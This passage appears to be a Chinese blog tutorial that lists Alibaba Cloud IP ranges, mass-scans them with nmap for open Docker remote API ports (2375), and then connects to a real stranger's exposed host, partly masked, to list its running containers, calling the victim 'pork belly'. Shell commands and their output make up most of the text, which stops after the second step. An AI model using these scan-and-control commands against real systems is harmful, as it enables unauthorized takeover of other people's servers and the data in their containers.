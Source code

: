```shell
121.0.24.0/22    Hangzhou Alibaba Advertising Co.,Ltd. China  
121.0.28.0/22    Hangzhou Alibaba Advertising Co.,Ltd. China  
121.196.0.0/16    Hangzhou Alibaba Advertising Co.,Ltd. China  
121.197.0.0/16    Hangzhou Alibaba Advertising Co.,Ltd. China  
121.198.0.0/16    Hangzhou Alibaba Advertising Co.,Ltd. China  
121.199.0.0/16    Hangzhou Alibaba Advertising Co.,Ltd. China  
140.205.0.0/16    Aliyun Computing Co., LTD China  
203.209.250.0/23    Hangzhou Alibaba Advertising Co.,Ltd. China  
218.244.128.0/19    Hangzhou Alibaba Advertising Co.,Ltd. China  
223.4.0.0/16    Hangzhou Alibaba Advertising Co.,Ltd. China  
223.5.0.0/16    Hangzhou Alibaba Advertising Co.,Ltd. China  
223.5.5.0/24    Hangzhou Alibaba Advertising Co.,Ltd. China  
223.6.0.0/16    Hangzhou Alibaba Advertising Co.,Ltd. China  
223.6.6.0/24    Hangzhou Alibaba Advertising Co.,Ltd. China  
223.7.0.0/16    Hangzhou Alibaba Advertising Co.,Ltd. 
```

我不生产IP，我只是百度的搬运工，别问我这些IP从那来，我也想知道~ >.<

将上面IP内容保存在一个文件中，如 aliyun.list

开始扫描：

```shell
cat aliyun.list| awk '{print $1}' | xargs -n 1 -I {} nmap -sT -p2375 {} --open    
# 简单解释一下命令：
# awk 将第一列IP网段过滤出来
# xargs 将过滤出来的IP一个一个的分次送给nmap，-I {} 是指使用{}来代替传送的参数
# ...
# Starting Nmap 7.01 ( https://nmap.org ) at 2016-06-05 09:57 CST
# Nmap scan report for 42.96.MOSAIC.MOSAIC
# Host is up (0.070s latency).
# PORT     STATE SERVICE
# 2375/tcp open  docker
# ...
```

不到两分钟，第一块`42.96.MOSAIC.MOSAIC`（五花肉已打码） “五花肉”选好了，来吧~

### step 2: 测试2375的直接控制权
```shell
docker -H tcp://42.96.MOSAIC.MOSAIC:2375 ps

# CONTAINER ID        IMAGE                              COMMAND                  CREATED             STATUS              PORTS           
# 73aa690e7c92        imdjh/owncloud-with-ocdownloader   "/entrypoint.sh"         9 days ago          Up 3 days           0.0.0.0:9009->80
# f57c56af0e29        rethinkdb:2.3.2                    "rethinkdb --bind all"   9 days ago          Up 3 days           8080/tcp, 28015/
# 37c1401db593        gaomd/ikev2-vpn-server:0.3.0       "/bin/sh -c /usr/bin/"   10 days ago         Up 3 days           0.0.0.0:500->500
# af7338a5426d        nginx:1.9-alpine                   "nginx -g 'daemon off"   3 weeks ago         Up 3 days           443/tcp, 0.0.0.0
# ...
```

